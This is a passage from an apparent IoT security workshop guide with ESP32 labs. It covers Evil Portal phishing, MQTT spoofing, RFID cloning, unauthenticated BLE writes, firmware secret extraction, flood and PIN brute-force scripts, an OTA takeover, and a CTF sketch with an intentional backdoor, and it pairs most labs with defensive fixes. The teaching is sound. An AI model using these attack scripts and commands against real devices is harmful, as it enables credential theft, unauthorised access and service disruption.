5. On the fake page, type **dummy/test credentials only** (e.g., `testuser` / `password123`) — never a real personal password.
6. Back on the organizer/attacker Serial Monitor, you should see the harvested credentials logged in plaintext.
7. Stop the portal: `stop`

**Expected Output (attacker's Serial Monitor):**
```
[+] New client connected to Evil Portal
[+] Credentials captured: user=testuser pass=password123
```

**Phishing Flow Diagram:**


**Troubleshooting:**
| Problem | Fix |
|---|---|
| Captive portal doesn't auto-open on victim device | Manually browse to any non-HTTPS site (e.g., `http://neverssl.com`) to trigger portal redirect |
| Victim connects to the real AP instead of the clone | Combine with a brief `attack -t deauth` on the real AP first, so the victim's device is forced to look for alternatives |

**⚠️ Strict scope reminder:** Only clone `IoT-Test-Lab`. Only test-phones/dummy accounts. Never a real personal social media, email, or banking credential.

**Cleanup:** `stop` the portal; ask the "victim" student to forget both the real and cloned network from their device's WiFi list.

**Why It Matters:** This is exactly how public WiFi phishing attacks work in cafes, airports, and conferences — the takeaway is "never enter credentials into a captive portal you didn't expect, and prefer networks that use certificate-based/enterprise auth."

**📚 References:** [ESP32Marauder Evil Portal – DeepWiki architecture overview](<cite>turn3search54</cite>) | [ESP32Marauder – GitHub](<cite>turn3search51</cite>)

---

### 🟡🟠 P7 — MQTT Eavesdropping & Spoofing

**Duration:** 45 min &nbsp; | &nbsp; **Level:** Intermediate → Advanced &nbsp; | &nbsp; **Goal:** Attack the real IoT messaging protocol used by millions of smart-home/industrial devices.

**Concept:** MQTT is a lightweight publish/subscribe protocol used everywhere in IoT. By default it has **no encryption and often no authentication** — anyone who can reach the broker can read every message and publish fake ones.

**Architecture Diagram:**


**Requirements:** Organizer's laptop running Mosquitto broker (note its IP, e.g. `192.168.4.1`), ESP32 with DHT11 from P2.

**Step-by-Step — Organizer sets up the broker (once, for the whole class):**
1. Install Mosquitto, then edit its config to allow anonymous connections for this lab exercise (`mosquitto.conf`):
   ```
   listener 1883
   allow_anonymous true
   ```
2. Start it: `mosquitto -c mosquitto.conf -v`

**Step-by-Step — Students: publish real sensor data:**
1. In Arduino Library Manager, install **PubSubClient** by Nick O'Leary.
2. Upload the code below (replace `mqtt_server` with the organizer's laptop IP).

**Code (`P7_MQTT_Publish.ino`):**
```cpp
#include <WiFi.h>
#include <PubSubClient.h>
#include "DHT.h"

const char* ssid       = "IoT-Test-Lab";
const char* password   = "Test@12345";
const char* mqtt_server = "192.168.4.1";   // organizer laptop IP

#define DHTPIN 4
#define DHTTYPE DHT11
DHT dht(DHTPIN, DHTTYPE);

WiFiClient espClient;
PubSubClient client(espClient);

void reconnect() {
  while (!client.connected()) {
    String clientId = "ESP32Client-" + String(random(0xffff), HEX);
    client.connect(clientId.c_str());
    delay(500);
  }
}

void setup() {
  Serial.begin(115200);
  dht.begin();
  WiFi.begin(ssid, password);
  while (WiFi.status() != WL_CONNECTED) delay(500);
  client.setServer(mqtt_server, 1883);
}

void loop() {
  if (!client.connected()) reconnect();
  client.loop();

  float t = dht.readTemperature();
  String payload = String(t);
  client.publish("home/livingroom/temperature", payload.c_str());  // NOTE: plaintext, unauthenticated
  Serial.println("Published temp: " + payload);
  delay(3000);
}
```

**Step-by-Step — Attacker eavesdrops (from any laptop on the network):**
```bash
mosquitto_sub -h 192.168.4.1 -t "#" -v
```
This subscribes to **every topic** (`#` wildcard) and prints all live traffic — you'll see the temperature values streaming in real time from someone else's device, without any credentials.

**Step-by-Step — Attacker spoofs a fake reading:**
```bash
mosquitto_pub -h 192.168.4.1 -t "home/livingroom/temperature" -m "999.9"
```
Any dashboard/subscriber trusting this topic will now display a fake, attacker-controlled `999.9°C` reading — demonstrating **data integrity loss**, e.g., an attacker could spoof a fire-alarm sensor to report "all normal" during a real fire, or vice-versa trigger a false alarm.

**Troubleshooting:**
| Problem | Fix |
|---|---|
| ESP32 won't connect to broker | Confirm organizer's Mosquitto is running with `allow_anonymous true` and firewall isn't blocking port 1883 |
| `mosquitto_sub` shows nothing | Confirm topic wildcard `#` is quoted properly; confirm same broker IP |

**Cleanup:** Leave the ESP32 publishing — reused in P8 for the encrypted comparison.

**Why It Matters:** MQTT without TLS/auth is a textbook OWASP IoT Top 10 issue ("Lack of Transport Encryption" and "Insecure Network Services") and has caused real breaches in smart-home and industrial (SCADA/ICS) deployments.

**📚 References:** [PubSubClient – GitHub](<cite>turn3search26</cite>) | [Eclipse Mosquitto – Official Site](<cite>turn3search38</cite>) | [MQTT Protocol Specification (OASIS)](<cite>turn3search104</cite>) | [mqtt.org – Why MQTT](<cite>turn3search106</cite>)

---

### 🟠 P9 — RFID Read & Clone (MFRC522)

**Duration:** 45 min &nbsp; | &nbsp; **Level:** Advanced &nbsp; | &nbsp; **Goal:** Demonstrate why UID-based RFID access control (common in office doors, hostel gates, transit cards) is trivially clonable.

**Concept:** Cheap "Mifare Classic"-style access systems check only a card's UID (a fixed serial number) — no cryptographic challenge. If the UID can be read, and you own a "UID-changeable"/magic card, you can make a perfect clone.

**Requirements:** ESP32, MFRC522 module, the RFID card + keyfob supplied with your kit, one blank writable/"UID changeable" card (organizer-supplied, optional).

**Wiring:**
| MFRC522 Pin | ESP32 Pin |
|---|---|
| SDA (SS) | GPIO 5 |
| SCK | GPIO 18 |
| MOSI | GPIO 23 |
| MISO | GPIO 19 |
| RST | GPIO 22 |
| 3.3V | 3.3V |
| GND | GND |

**Wiring Diagram:**


**Step-by-Step:**
1. Install library: `Tools > Manage Libraries` → search **MFRC522** by GithubCommunity → Install. [Library reference](<cite>turn3search56</cite>)
2. Wire the module as per the table above.
3. Upload the UID-reading code below.

**Code (`P9_RFID_Read.ino`):**
```cpp
#include <SPI.h>
#include <MFRC522.h>

#define SS_PIN  5
#define RST_PIN 22
MFRC522 rfid(SS_PIN, RST_PIN);

void setup() {
  Serial.begin(115200);
  SPI.begin();
  rfid.PCD_Init();
  Serial.println("Tap a card/keyfob on the reader...");
}

void loop() {
  if (!rfid.PICC_IsNewCardPresent() || !rfid.PICC_ReadCardSerial()) return;

  Serial.print("Card UID:");
  for (byte i = 0; i < rfid.uid.size; i++) {
    Serial.print(rfid.uid.uidByte[i] < 0x10 ? " 0" : " ");
    Serial.print(rfid.uid.uidByte[i], HEX);
  }
  Serial.println();

  rfid.PICC_HaltA();
}
```

**Run & Verify:** Open Serial Monitor. Tap your card, then your keyfob — each prints a unique UID like `Card UID: 04 A1 3B 9C`.

**Cloning demo (only with an organizer-supplied writable/magic card):**
1. Note the target card's UID from the output above.
2. Use the MFRC522 library's `ChangeUID` example sketch (`File > Examples > MFRC522 > ChangeUID`), which writes a chosen UID onto block 0 of a special writable card (this **only** works on "UID changeable"/Chinese magic cards — normal Mifare Classic cards reject this write).
3. Re-scan the newly-written card with `P9_RFID_Read.ino` — its UID now matches the original card exactly.
4. Demonstrate: if a mock "door lock" system only checked UID equality, the cloned card unlocks it identically to the original.

**Troubleshooting:**
| Problem | Fix |
|---|---|
| Nothing prints when tapping card | Double-check SPI wiring, especially SS/RST pins match code `#define`s |
| `ChangeUID` sketch fails to write | Confirm you're using a genuine writable/"magic" card, not a normal Mifare Classic |

**⚠️ Strict scope reminder:** Clone only the cards issued for this workshop. Never attempt to read/clone a real hostel, office, ID, or transit card belonging to yourself or others in this exercise.

**Cleanup:** Keep wiring — reused conceptually in P14 Capstone.

**Why It Matters:** This is why modern access-control systems use **cryptographic authentication** (Mifare DESFire, challenge-response) instead of trusting a static UID.

**📚 References:** [miguelbalboa/rfid – MFRC522 Library GitHub](<cite>turn3search56</cite>) | [MFRC522 – Arduino Library Reference](<cite>turn3search59</cite>) | [ESP32 pinout reference](<cite>turn3search133</cite>)

---

## 8. Bonus / Extended Practicals

Use these for fast-finisher pairs during the 15:45–16:30 slot, or as a **follow-up half-day session** — no new hardware/software purchases required.

---

### 🟠 P8 — MQTT Hardened with TLS (Fixing P7)

**Duration:** 45 min &nbsp; | &nbsp; **Level:** Advanced &nbsp; | &nbsp; **Goal:** Show the *defensive fix* for P7 — encrypt MQTT so eavesdropping/spoofing fails.

**Requirements:** Same as P7, plus OpenSSL.

**Step-by-Step — Organizer generates certs (once):**
```bash
# Generate a self-signed CA
openssl req -new -x509 -days 365 -extensions v3_ca -keyout ca.key -out ca.crt -subj "/CN=IoTLabCA"

# Generate broker key + cert, signed by the CA
openssl genrsa -out server.key 2048
openssl req -new -out server.csr -key server.key -subj "/CN=192.168.4.1"
openssl x509 -req -in server.csr -CA ca.crt -CAkey ca.key -CAcreateserial -out server.crt -days 365
```

**Mosquitto config (`mosquitto_tls.conf`):**
```
listener 8883
cafile ca.crt
certfile server.crt
keyfile server.key
require_certificate false
```
Start it: `mosquitto -c mosquitto_tls.conf -v`

**ESP32 code changes (`P8_MQTT_TLS.ino` — adapt P7's sketch):**
```cpp
#include <WiFiClientSecure.h>
#include <PubSubClient.h>

WiFiClientSecure espClient;
PubSubClient client(espClient);

const char* ca_cert = \
"-----BEGIN CERTIFICATE-----\n" \
"<paste your ca.crt contents here>\n" \
"-----END CERTIFICATE-----\n";

void setup() {
  // ... WiFi.begin() as before ...
  espClient.setCACert(ca_cert);
  client.setServer("192.168.4.1", 8883);
}
```

**Run & Verify:** Repeat the `mosquitto_sub`/`mosquitto_pub` attack from P7, but pointed at port 8883 without the CA cert — it will **fail to connect** (`error: unable to verify the first certificate` / TLS handshake failure). Capture the traffic in Wireshark filtered on `tcp.port == 8883` — the payload is now unreadable ciphertext instead of plaintext.

**Before vs. After Diagram:**


**Why It Matters:** This is the direct, practical fix for everything demonstrated in P7 — the same lesson applies to hardening HTTP→HTTPS in P3/P4.

**📚 References:** [OpenSSL – Official Documentation](<cite>turn3search92</cite>) | [Mosquitto – TLS Configuration Docs](<cite>turn3search39</cite>) | [MQTT 5.0 Specification (OASIS Standard)](<cite>turn3search105</cite>)

---

### 🟠 P10 — BLE GATT Server + Unauthenticated Write Attack

**Duration:** 45 min &nbsp; | &nbsp; **Level:** Advanced &nbsp; | &nbsp; **Goal:** Show that Bluetooth Low Energy devices (smart locks, wearables, trackers) are frequently vulnerable to unauthenticated read/write.

**Requirements:** ESP32, student's own phone with **nRF Connect for Mobile** installed (free app).

**Architecture Diagram:**


**Code (`P10_BLE_SmartLock.ino`):**
```cpp
#include <BLEDevice.h>
#include <BLEServer.h>
#include <BLEUtils.h>
#include <BLE2902.h>

#define SERVICE_UUID        "4fafc201-1fb5-459e-8fcc-c5c9c331914b"
#define CHARACTERISTIC_UUID "beb5483e-36e1-4688-b7f5-ea07361b26a8"

BLECharacteristic *pCharacteristic;

class MyCallbacks: public BLECharacteristicCallbacks {
  void onWrite(BLECharacteristic *pChar) override {
    String value = pChar->getValue().c_str();
    Serial.println("Lock state written by client: " + value);
  }
};

void setup() {
  Serial.begin(115200);
  BLEDevice::init("SmartLock-ESP32");
  BLEServer *pServer = BLEDevice::createServer();
  BLEService *pService = pServer->createService(SERVICE_UUID);

  pCharacteristic = pService->createCharacteristic(
      CHARACTERISTIC_UUID,
      BLECharacteristic::PROPERTY_READ | BLECharacteristic::PROPERTY_WRITE
  );
  pCharacteristic->setValue("LOCKED");
  pCharacteristic->setCallbacks(new MyCallbacks());
  pService->start();

  BLEAdvertising *pAdvertising = BLEDevice::getAdvertising();
  pAdvertising->start();
  Serial.println("BLE SmartLock advertising - NOTE: no pairing/auth required!");
}

void loop() {}
```

**Step-by-Step — Attack from phone:**
1. Open **nRF Connect** → Scan → find `SmartLock-ESP32` → tap **Connect** (no PIN/pairing requested).
2. Expand the custom service → find the characteristic → tap the **upload/write icon**.
3. Write the text value `UNLOCKED` and send.
4. Check the ESP32's Serial Monitor — it prints `Lock state written by client: UNLOCKED`, proving any nearby phone (no pairing, no app, no credentials) can flip the "lock" state.

**Why It Matters:** Real BLE smart locks have shipped with exactly this flaw (no bonding/pairing required for writes) — the fix is **BLE bonding/pairing with encryption** (`BLESecurity` class, `setAuthenticationMode`, `setCapability`, etc.) plus application-layer authentication tokens.

**📚 References:** [nRF Connect for Mobile – Nordic Semiconductor](<cite>turn3search68</cite>) | [nRF Connect – Google Play](<cite>turn3search69</cite>) | [ESP32 Arduino BLE library docs (bundled in arduino-esp32 core)](<cite>turn3search83</cite>)

---

### 🟣 P11 — Firmware Extraction & Secrets Hunting (esptool)

**Duration:** 30–45 min &nbsp; | &nbsp; **Level:** Expert &nbsp; | &nbsp; **Goal:** Show that hardcoded secrets (like the `ssid`/`password` in P3/P7's code) are trivially recoverable from firmware if an attacker gets physical/USB access.

**Requirements:** The ESP32 running P3 or P7's code, `esptool` installed.

**Step-by-Step:**
```bash
# Dump the full 4MB flash contents to a local file
esptool.py --chip esp32 --port COM5 read_flash 0x0 0x400000 firmware_dump.bin

# Search the dump for readable strings containing secrets
strings firmware_dump.bin | grep -i -E "ssid|password|mqtt|http://"
```

**Expected Output:** You should see your own `IoT-Test-Lab`, `Test@12345`, and the MQTT broker IP printed in plaintext from the raw binary dump — proving that **any hardcoded credential in Arduino/C++ source code ends up recoverable from the compiled firmware.**

**Troubleshooting:**
| Problem | Fix |
|---|---|
| `strings` command not found (Windows) | Use Git Bash (includes `strings`), or WSL, or install `strings` from GnuWin32 |
| Dump file is huge / slow | Normal — 4MB read at default baud takes a couple of minutes; increase `--baud 921600` for speed |

**Why It Matters:** This is why production IoT devices use **NVS encryption**, **Flash Encryption**, and provisioning secrets at manufacture-time via secure elements — never hardcoded plaintext strings in firmware (see P12).

**📚 References:** [esptool – Official Espressif Documentation](<cite>turn3search32</cite>) | [esptool – GitHub Repository](<cite>turn3search36</cite>)

---

### 🟣 P12 — Secure Boot & Flash Encryption (Concept + Guided Demo)

**Duration:** 30 min (demo only, not per-student) &nbsp; | &nbsp; **Level:** Expert &nbsp; | &nbsp; **Goal:** Show the *real* countermeasure to P11 — instructor-led demo only.

**⚠️ Important:** Flash Encryption and Secure Boot burn **physical, one-way eFuses** in the ESP32 chip. This is **irreversible** and will permanently lock the "sacrificial" board out of normal unencrypted re-flashing. **Never do this on a student's main kit board.**

**Concept:** Secure Boot ensures only cryptographically signed firmware can run on the chip. Flash Encryption encrypts the entire flash contents at rest, so a firmware dump like P11 produces only ciphertext, not readable strings.

**Instructor demo commands (on the sacrificial board only, via ESP-IDF, not Arduino IDE):**
```bash
# Generate a secure boot signing key (keep this key secret and offline in real production!)
espsecure.py generate_signing_key --version 2 secure_boot_signing_key.pem

# Enable via project configuration
idf.py menuconfig
# → Security features → Enable "Secure Boot V2" and "Enable flash encryption on boot"

# Build, sign, and flash
idf.py build
idf.py flash
```
Show students the ESP-IDF documentation's warning screens about eFuse burning during this flow, and explain conceptually rather than repeating it hands-on per student.

**Chain of Trust Diagram:**


**Why It Matters:** This closes the loop from P11 — shows the professional-grade fix used in production-grade commercial IoT devices (payment terminals, medical devices, secure smart locks).

**📚 References:** [ESP-IDF Secure Boot v2 – Official Docs](<cite>turn3search62</cite>) | [ESP-IDF Flash Encryption – Official Docs](<cite>turn3search63</cite>)

---

### 🟣 P13 — DoS / Resource Exhaustion Test

**Duration:** 20–30 min &nbsp; | &nbsp; **Level:** Expert &nbsp; | &nbsp; **Goal:** Show that constrained IoT devices (limited RAM/CPU) can be knocked offline by simple traffic floods, unlike full servers.

**Requirements:** P3's insecure web server still running, Python 3 with `pip install requests`.

**Code (`p13_dos_test.py`):**
```python
import requests
from concurrent.futures import ThreadPoolExecutor

TARGET = "http://192.168.4.23/"   # replace with your ESP32's IP
REQUEST_COUNT = 2000
MAX_WORKERS = 50

def hit():
    try:
        requests.get(TARGET, timeout=2)
    except requests.exceptions.RequestException:
        pass

if __name__ == "__main__":
    with ThreadPoolExecutor(max_workers=MAX_WORKERS) as executor:
        for _ in range(REQUEST_COUNT):
            executor.submit(hit)
    print("Flood complete.")
```

**Run & Verify:** Run `python p13_dos_test.py` while another student continuously refreshes the ESP32's control page in a browser — they should observe the page becoming slow, unresponsive, or the ESP32 rebooting (watchdog reset) under load. Watch the ESP32's Serial Monitor for reboot/error messages.

**Why It Matters:** Demonstrates why production IoT web services need **rate limiting**, **connection limits**, and why constrained devices should avoid exposing direct control interfaces to untrusted networks at all (prefer cloud-mediated, authenticated control).

**📚 References:** [Python `concurrent.futures` — Official Python Docs](https://docs.python.org/3/library/concurrent.futures.html) | [`requests` library — Official Docs](https://requests.readthedocs.io/)

---

### 🔵 P14 — Capstone Mini-CTF: Chain Everything Together

**Duration:** 30 min &nbsp; | &nbsp; **Level:** All levels &nbsp; | &nbsp; **Goal:** Combine the day's vulnerabilities into one narrative exercise.

**Scenario:** Organizer sets up one ESP32 as a "Smart Door Lock" combining RFID + BLE + MQTT, with an **intentional logic flaw**: the BLE "unlock" write bypasses the RFID check entirely.

**Code (`P14_SmartDoor_CTF.ino`) — organizer deploys this on one demo board:**
```cpp
#include <SPI.h>
#include <MFRC522.h>
#include <BLEDevice.h>
#include <BLEServer.h>
#include <BLEUtils.h>
#include <BLE2902.h>

#define SS_PIN 5
#define RST_PIN 22
#define LOCK_LED 2

MFRC522 rfid(SS_PIN, RST_PIN);
byte validUID[4] = {0x04, 0xA1, 0x3B, 0x9C}; // set to your workshop's real card UID

#define SERVICE_UUID        "4fafc201-1fb5-459e-8fcc-c5c9c331914b"
#define CHARACTERISTIC_UUID "beb5483e-36e1-4688-b7f5-ea07361b26a8"

bool doorUnlocked = false;

class DoorCallbacks: public BLECharacteristicCallbacks {
  void onWrite(BLECharacteristic *pChar) override {
    String value = pChar->getValue().c_str();
    if (value == "UNLOCK_BACKDOOR") {          // <-- the intentional flaw students must find
      doorUnlocked = true;
      digitalWrite(LOCK_LED, HIGH);
      Serial.println("[FLAG] Door unlocked via BLE bypass! FLAG{ble_bypasses_rfid_auth}");
    }
  }
};

void setup() {
  Serial.begin(115200);
  pinMode(LOCK_LED, OUTPUT);
  SPI.begin();
  rfid.PCD_Init();

  BLEDevice::init("SmartDoor-ESP32");
  BLEServer *pServer = BLEDevice::createServer();
  BLEService *pService = pServer->createService(SERVICE_UUID);
  BLECharacteristic *pChar = pService->createCharacteristic(
      CHARACTERISTIC_UUID,
      BLECharacteristic::PROPERTY_READ | BLECharacteristic::PROPERTY_WRITE);
  pChar->setValue("LOCKED");
  pChar->setCallbacks(new DoorCallbacks());
  pService->start();
  BLEDevice::getAdvertising()->start();

  Serial.println("SmartDoor booted. Try the front door (RFID) or find another way in...");
}

void loop() {
  if (rfid.PICC_IsNewCardPresent() && rfid.PICC_ReadCardSerial()) {
    bool match = true;
    for (byte i = 0; i < 4; i++) if (rfid.uid.uidByte[i] != validUID[i]) match = false;
    if (match) {
      doorUnlocked = true;
      digitalWrite(LOCK_LED, HIGH);
      Serial.println("Door unlocked via valid RFID card.");
    } else {
      Serial.println("Access denied - wrong card.");
    }
    rfid.PICC_HaltA();
  }
}
```

**Student mission (give this brief, not the source code):**
> "There's a SmartDoor-ESP32 device advertising nearby. The front door normally opens with an RFID card you don't have. Find another way to unlock it, using anything you learned today, and report the FLAG printed on the Serial console."

**Expected solve path:** Students scan with nRF Connect → find the BLE service/characteristic → try writing different strings (informed by what they learned about unauthenticated BLE writes in P10) → discover `UNLOCK_BACKDOOR` (organizer can give a small hint if the team is stuck) → LED turns on and flag prints on the shared display/Serial console.

**Capstone Attack Chain Diagram:**


**Wrap-up discussion:** Ask each team to explain, in security terms, what vulnerability class they exploited (Broken Access Control / insecure BLE authorization — OWASP IoT #2 & #4).

---

## 9. Further Practicals (P15–P23)

These use the **exact same hardware kit** (ESP32, MFRC522, DHT11, breadboard/LEDs, isolated router) — no new purchases required. They need a handful of **additional free/open-source tools** installed on laptops (noted per practical). Recommended as a **dedicated advanced follow-up session** (half-day or full-day) after students have completed P1–P14, since several build directly on skills from P3, P5, and P10.

---

### 🟠 P15 — Brute-Force Attack & Rate-Limiting Defense

**Duration:** 30 min &nbsp; | &nbsp; **Level:** Advanced &nbsp; | &nbsp; **Goal:** Show why weak/short PINs on IoT web interfaces are trivially brute-forceable, then fix it with rate-limiting.

**Concept:** Many real IoT devices (routers, cameras, smart locks) protect their admin panel with only a short numeric PIN. Without rate-limiting or lockout, an attacker can simply try every combination in seconds.

**Requirements:** ESP32, Python 3 with `pip install requests`.

**Code (`P15_PIN_Server.ino` — extend P3's server with a protected endpoint):**
```cpp
#include <WiFi.h>
#include <WebServer.h>

const char* ssid     = "IoT-Test-Lab";
const char* password = "Test@12345";
const String correctPIN = "4821";

WebServer server(80);

void handleUnlock() {
  String pin = server.arg("pin");
  if (pin == correctPIN) {
    server.send(200, "text/plain", "ACCESS GRANTED");
  } else {
    server.send(401, "text/plain", "ACCESS DENIED");
  }
}

void setup() {
  Serial.begin(115200);
  WiFi.begin(ssid, password);
  while (WiFi.status() != WL_CONNECTED) delay(500);
  Serial.println("Device IP: " + WiFi.localIP().toString());

  server.on("/unlock", handleUnlock);   // e.g. /unlock?pin=1234
  server.begin();
}

void loop() {
  server.handleClient();
}
```

**Attack script (`p15_bruteforce.py`):**
```python
import requests

TARGET = "http://192.168.4.23/unlock"   # replace with your ESP32's IP

for pin in range(0, 10000):
    guess = f"{pin:04d}"
    r = requests.get(TARGET, params={"pin": guess}, timeout=2)
    if r.status_code == 200:
        print(f"[+] PIN FOUND: {guess}")
        break
else:
    print("PIN not found in range.")
```

**Run & Verify:** Run the script — it should find the 4-digit PIN within seconds (10,000 combinations max), printing `[+] PIN FOUND: 4821`.

**Defensive fix — add rate-limiting/lockout (`P15_PIN_Server_Fixed.ino` changes):**
```cpp
int failCount = 0;
unsigned long lockoutUntil = 0;

void handleUnlock() {
  if (millis() < lockoutUntil) {
    server.send(429, "text/plain", "Too many attempts - try again later");
    return;
  }
  String pin = server.arg("pin");
  if (pin == correctPIN) {
    failCount = 0;
    server.send(200, "text/plain", "ACCESS GRANTED");
  } else {
    failCount++;
    if (failCount >= 5) {
      lockoutUntil = millis() + 30000;   // 30-second lockout after 5 failed attempts
      Serial.println("Lockout triggered!");
    }
    server.send(401, "text/plain", "ACCESS DENIED");
  }
}
```
Re-run `p15_bruteforce.py` against the fixed version — it should now get blocked (`429 Too many attempts`) after 5 attempts, making brute-force impractical within the lockout window.

**Troubleshooting:**
| Problem | Fix |
|---|---|
| Script runs but never finds PIN | Confirm `correctPIN` in the sketch matches what the script expects, or widen the range |
| All requests return 401 immediately | Confirm ESP32 IP and route path (`/unlock`) are correct |

**Why It Matters:** Directly demonstrates OWASP IoT Top 10 "Weak, Guessable Passwords" and shows the standard defense (rate limiting/account lockout) used in real authentication systems.

**📚 References:** [Python `requests` – Official Docs](https://requests.readthedocs.io/)

---

### 🟣 P16 — Insecure OTA Firmware Update Attack

**Duration:** 30–40 min &nbsp; | &nbsp; **Level:** Expert &nbsp; | &nbsp; **Goal:** Show what happens when Over-The-Air firmware updates have no password — anyone on the network can push new firmware to the device.

**Concept:** OTA lets you update ESP32 firmware wirelessly instead of via USB. The ESP-IDF/Arduino `ArduinoOTA` library allows optional password protection — many real devices ship with it disabled, which means **any device on the network can silently overwrite the running firmware.**

**Requirements:** ESP32, `ArduinoOTA` library (bundled with the ESP32 Arduino core), Arduino IDE's "Network Port" upload feature.

**Code (`P16_OTA_Insecure.ino`):**
```cpp
#include <WiFi.h>
#include <ArduinoOTA.h>

const char* ssid     = "IoT-Test-Lab";
const char* password = "Test@12345";

void setup() {
  Serial.begin(115200);
  WiFi.begin(ssid, password);
  while (WiFi.status() != WL_CONNECTED) delay(500);
  Serial.println("Connected! IP: " + WiFi.localIP().toString());

  ArduinoOTA.setHostname("smart-device-01");
  // NOTE: ArduinoOTA.setPassword(...) intentionally NOT set -> no auth required!
  ArduinoOTA.begin();
  Serial.println("OTA ready - NOTE: no password set!");
}

void loop() {
  ArduinoOTA.handle();
}
```

**Step-by-Step — Attack demo:**
1. Upload the sketch above via USB once (to enable OTA listening).
2. Disconnect the USB cable — the device now only needs WiFi.
3. In Arduino IDE, go to `Tools > Port` — you should now see a **second, network-based port** listed (e.g., `smart-device-01 at 192.168.4.23`) alongside any USB ports.
4. From a **different laptop** on the same network (simulating an attacker who was never given USB access), select that network port and click **Upload** with any sketch (e.g., a modified Blink) — it uploads successfully with **zero credentials prompted**.
5. Observe: the "attacker" has just silently replaced the device's firmware over WiFi.

**Defensive fix:**
```cpp
ArduinoOTA.setPassword("StrongOTAPassword!23");
// or, better: ArduinoOTA.setPasswordHash("<md5-hash-of-password>");
```
Re-attempt the network upload — Arduino IDE now prompts for a password, and an incorrect one is rejected.

**Troubleshooting:**
| Problem | Fix |
|---|---|
